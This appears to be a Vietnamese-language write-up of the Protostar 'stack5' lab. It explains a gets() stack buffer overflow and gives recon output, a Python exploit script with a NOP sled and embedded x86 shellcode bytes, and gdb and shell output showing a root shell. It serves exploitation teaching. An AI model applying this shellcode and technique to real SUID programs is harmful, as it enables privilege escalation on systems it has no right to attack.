




# **stack5**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## New knowledge:
- shellcode: In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode. (_Wikipedia_: https://en.wikipedia.org/wiki/Shellcode)
- \xcc, int3: The INT3 instruction is a one-byte-instruction defined for use by debuggers to temporarily replace an instruction in a running program in order to set a code breakpoint. (_Wikipedia_: https://en.wikipedia.org/wiki/INT_(x86_instruction)#INT3) 
- \x90, nop: does nothing
- SUID (Set owner User ID up on execution): is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it. (https://www.linux.com/training-tutorials/what-suid-and-how-set-suid-linuxunix/)

## Target
- Cho payload shellcode vào stack và ghi đè return address để eip trỏ đến noi chứa payload.

## Vulnerability
gets()

## Recon
- Stack có flag x

```
┌──(kali㉿kali)-[~/Documents/week9]
└─$ objdump -x ./bin/stack5

./bin/stack5:     file format elf32-i386
./bin/stack5
architecture: i386, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x08048310

Program Header:
    PHDR off    0x00000034 vaddr 0x08048034 paddr 0x08048034 align 2**2
         filesz 0x000000e0 memsz 0x000000e0 flags r-x
  INTERP off    0x00000114 vaddr 0x08048114 paddr 0x08048114 align 2**0
         filesz 0x00000013 memsz 0x00000013 flags r--
    LOAD off    0x00000000 vaddr 0x08048000 paddr 0x08048000 align 2**12
         filesz 0x000004a4 memsz 0x000004a4 flags r-x
    LOAD off    0x000004a4 vaddr 0x080494a4 paddr 0x080494a4 align 2**12
         filesz 0x00000108 memsz 0x00000110 flags rw-
 DYNAMIC off    0x000004b8 vaddr 0x080494b8 paddr 0x080494b8 align 2**2
         filesz 0x000000d0 memsz 0x000000d0 flags rw-
    NOTE off    0x00000128 vaddr 0x08048128 paddr 0x08048128 align 2**2
         filesz 0x00000044 memsz 0x00000044 flags r--
   STACK off    0x00000000 vaddr 0x00000000 paddr 0x00000000 align 2**2
         filesz 0x00000000 memsz 0x00000000 flags rwx
```
- Check suid: mọi file trong protostar đều thuộc quyền sở hữu của root và có suid.



## Exploit
- Phân tích stack:



- Sử dụng script sau để sinh ra exploit, trong đó bao gồm:
     - 68 bytes = 0x40 + 0x4 để ghi lên buffer và ebp.
     - 5 lần (địa chỉ cần ghi đè lên return address): do dòng code "and esp, 0xfffffff0" sinh ra một khoảng trong stack có size [0x0 - 0xf]
```
import struct
padding = 'a'*68
eip = struck.pack("I", 0xtarget_address) * 5

print(padding + eip)
```
- Tiếp theo ta cần cho payload vào stack, lấy địa chỉ của payload để ghi đè lên return address.
     - Ta sẽ cho payload vào phía dưới của return address.
     
     

     - Tuy nhiên địa chỉ của payload không cố định mỗi lần chạy do stack có được push vô một số biến môi trường (và nó có thể khác nhau mỗi lần chạy). Nên ta cần một kỹ thuật để có thể để eip trỏ đến được địa chỉ của payload => dùng nop (khi thực thi lệnh nop, eip sẽ trỏ sang ngay câu lệnh kế tiếp):
     
     

     - => Do đó chỉ cần nhảy vô 1 trong số các nop này ta sẽ đến được payload (Không cần địa chỉ chính xác của payload nữa).
     - Update script:
     ```
     import struct
     padding = 'a' * 68
     eip = struck.pack("I", 0xtarget_address) * 5

     slide = '\x90' * 100
     payload = ''

     print(padding + eip + slide + payload)
     ```
     - Để 0xtarget_address là địa chỉ ngẫu nhiên, đặt breakpoint ở dòng lệnh "ret", quan sát stack:
     ```
     0x80483da <main+22>:    ret
     0xbffff7cc:     0x61626364      0x61626364      0x61626364      0x90909090
     0xbffff7dc:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff7ec:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff7fc:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff80c:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff81c:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff82c:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff83c:     0xc93112eb      0xb15f565e      0xfe068a15      0x460688c8
     ```

     - Lấy một địa chỉ ở giữa vùng nop code: 0xbffff810 thay vào script.
     - Tìm shellcode thích hợp để tay vào script (intel, x86, ...): https://shell-storm.org/shellcode/files/shellcode-690.php

     => final script để sinh ra exploit: 
     ```
     import struct

     padding = 'a' * 68
     eip = struct.pack("I", 0xbffff810) * 5

     slide = '\x90' * 100
     payload = "\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81"
     print(padding + eip + slide + payload)
     ``` 
- Lưu vào file exploit:
```
python script.py > exploit
```
- Chạy thử trong gdb:
```
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit
0x80483da <main+22>:    ret
0xbffff7cc:     0xbffff810      0xbffff810      0xbffff810      0x90909090
0xbffff7dc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7ec:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7fc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff80c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff81c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff82c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff83c:     0xc93112eb      0xb15f565e      0xfe068a15      0x460688c8

Breakpoint 1, 0x080483da in main (argc=-1869574000, argv=0x90909090) at stack5/stack5.c:11
11      in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash

Program exited normally.
Error while running hook_stop:
No registers.
```
=> **Executing new program: /bin/dash**
- Chạy trực tiếp:
```
user@protostar:/opt/protostar/bin$ cat /tmp/exploit | ./stack5
user@protostar:/opt/protostar/bin$ 
```
- Không có gì xảy ra!
     - Theo giải thích của liveoverflow: stdoutput của stack5 được điều hướng đến stdinput của /bin/dash. Nếu như stack5 kết thúc thì /bin/dash không còn input => kết thúc.
- Sử dụng cat để điều hướng stdinput đến stdoutput
```
user@protostar:/opt/protostar/bin$ (cat /tmp/exploit ; cat) | ./stack5
whoami
root
```

# References
- First Exploit! Buffer Overflow with Shellcode - bin 0x0E: https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19
- Running a Buffer Overflow Attack - Computerphile: https://www.youtube.com/watch?v=1S0aBV-Waeo
- shellcode: https://en.wikipedia.org/wiki/Shellcode
- \xcc | int3: https://en.wikipedia.org/wiki/INT_(x86_instruction)#INT3
- suid: https://www.linux.com/training-tutorials/what-suid-and-how-set-suid-linuxunix/